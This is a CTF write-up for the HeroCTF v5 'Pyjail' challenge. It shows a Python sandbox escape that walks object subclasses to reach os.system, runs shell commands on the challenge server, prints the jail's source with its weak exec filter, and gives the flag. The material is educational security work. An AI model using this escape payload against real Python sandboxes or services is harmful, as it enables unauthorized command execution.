# Pyjail

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Find the flag](#find-the-flag)
4. [Conclusion](#conclusion)

## Overview

- 174 solves / 50 points
- Difficulty: Easy
- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

Welcome in jail. If it's not your first time, you should be out quickly. If it is your first rodeo, people have escape before you... I'm sure you'll be fine.  
  
> Deploy on [deploy.heroctf.fr](https://deploy.heroctf.fr/)  
  
Format : **Hero{flag}**  
Author : **Log_s**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513181723.png)

## Find the flag

**In this challenge, we can `nc` to the instance machine:**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/Misc/PyJail)-[2023.05.13|18:17:56(HKT)]
└> nc dyn-03.heroctf.fr 10441                   
>> hello
An error occured. But which...
>> 
```

**In here, we can enter some python code:**
```shell
>> print(1+1)
2
```

**However, some characters are not allow:**
```shell
>> _
An error occured. But which...
>> a
An error occured. But which...
```

But we don't know it's a syntax error or a forbidden character...

**After fumbling around, I found [this writeup from CSAW CTF Qualification Round 2020](https://ctftime.org/writeup/23430):**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513183756.png)

**Payload:**
```python
print(''.__class__.__mro__[1].__subclasses__()[109].__init__.__globals__['sys'].modules['os'].__dict__['system']('ls -lah'))
```

What this payload does is using the string `''` object to find the `os` module, and execute OS command via `os.system()`.

> Note: You can read more about that in my recent writeup in PwnMe Qualifications : “8 bits”'s [Anozer Blog](https://siunam321.github.io/ctf/PwnMe-2023-8-bits/Web/Anozer-Blog/), it's about Class Pollution.

**When we execute that payload:**
```shell
>> print(''.__class__.__mro__[1].__subclasses__()[109].__init__.__globals__['sys'].modules['os'].__dict__['system']('ls -lah'))
total 16K
drwxr-xr-x 1 root root 4.0K May 12 10:35 .
drwxr-xr-x 1 root root 4.0K May 13 10:17 ..
-rwsr-xr-x 1 root root  133 May 12 10:17 entry.sh
-rwsr-xr-x 1 root root  845 May 12 10:17 pyjail.py
0
```

It ran our OS command!

**Let's get the flag!**
```shell
>> print(''.__class__.__mro__[1].__subclasses__()[109].__init__.__globals__['sys'].modules['os'].__dict__['system']('cat pyjail.py'))
#! /usr/bin/python3

# FLAG : Hero{nooooo_y0u_3sc4p3d!!}

def jail():
    user_input = input(">> ")

    filtered = ["eval", "exec"]
    
    valid_input = True
    for f in filtered:
        if f in user_input:
            print("You're trying something fancy aren't u ?")
            valid_input = False
            break
    for l in user_input:
        if ord(l) < 23 or ord(l) > 126:
            print("You're trying something fancy aren't u ?")
            valid_input = False
            break
    
    if valid_input:
        try:
            exec(user_input, {'__builtins__':{'print': print, 'globals': globals}}, {})
        except:
            print("An error occured. But which...")

def main():
    try:
        while True:
            jail()
    except KeyboardInterrupt:
        print("Bye")

if __name__ == "__main__":
    main()0
```

- **Flag: `Hero{nooooo_y0u_3sc4p3d!!}`**

## Conclusion

What we've learned:

1. Python Jail Escape